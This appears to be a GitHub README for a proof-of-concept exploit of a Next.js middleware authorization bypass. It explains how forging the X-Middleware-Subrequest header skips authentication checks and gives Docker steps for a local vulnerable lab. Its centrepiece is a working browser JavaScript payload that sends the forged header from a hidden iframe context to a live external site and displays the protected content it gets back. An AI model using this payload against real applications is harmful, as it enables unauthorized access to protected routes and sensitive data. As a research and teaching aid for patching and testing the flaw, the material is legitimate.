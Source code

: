 # Next.js Middleware Authorization Bypass PoC

This project demonstrates an **Authorization Bypass vulnerability in Next.js Middleware**, as described in [ProjectDiscovery Blog](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

## 📝 Vulnerability Summary

Next.js Middleware is a powerful feature to process requests at the edge before reaching the application logic. However, if the `X-Middleware-Subrequest` header is not properly validated, it can lead to **authentication and authorization bypass**.

### Root Cause:

- Middleware relies on the `X-Middleware-Subrequest` header to determine internal subrequests.
- An attacker can forge this header to trick the Middleware into skipping critical checks (such as authentication).

### Impact:

- Unauthorized access to protected routes and sensitive data.
- Bypassing authentication mechanisms implemented via Middleware.

## 🚀 Proof of Concept (PoC)

The following JavaScript snippet demonstrates how an attacker can bypass the Middleware protections:

```javascript
(function () {
  var iframe = document.createElement("iframe");
  iframe.style.display = "none";
  iframe.src = "https://zerotix.liara.run/protected-route";
  document.body.appendChild(iframe);
  iframe.onload = function () {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://zerotix.liara.run/protected-route", true);
    xhr.setRequestHeader("X-Middleware-Subrequest", "middleware:middleware:middleware:middleware:middleware");
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4) {
        if (xhr.status === 200) {
          console.log("%c[+] Middleware Bypassed! Response Loaded Below:", "color: green;");
          console.log(xhr.responseText);
          var newWin = window.open();
          newWin.document.write(xhr.responseText);
        } else {
          console.error("[-] Bypass Failed. Status:", xhr.status);
        }
      }
    };
    xhr.send();
  };
})();
```

### Explanation:

- Loads the protected route in a hidden iframe to establish a valid origin context.
- Sends an XMLHttpRequest with a crafted `X-Middleware-Subrequest` header.
- If the bypass is successful, it logs and displays the response content.

## 🐳 Running the Vulnerable App (Docker)

Follow these steps to run the vulnerable Next.js application:

### 1. Build the Docker image:

```bash
docker build -t nextjs-middleware-bypass .
```

### 2. Run the Docker container:

```bash
docker run -p 3000:3000 nextjs-middleware-bypass
```

### 3. Access the application at:

```
http://localhost:3000
```

## 🔗 References

- [ProjectDiscovery Blog — Next.js Middleware Authorization Bypass](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

## ⚠️ Disclaimer

This project is intended for **educational purposes only**. Unauthorized exploitation of systems is illegal. Always ensure you have proper authorization before performing security testing.
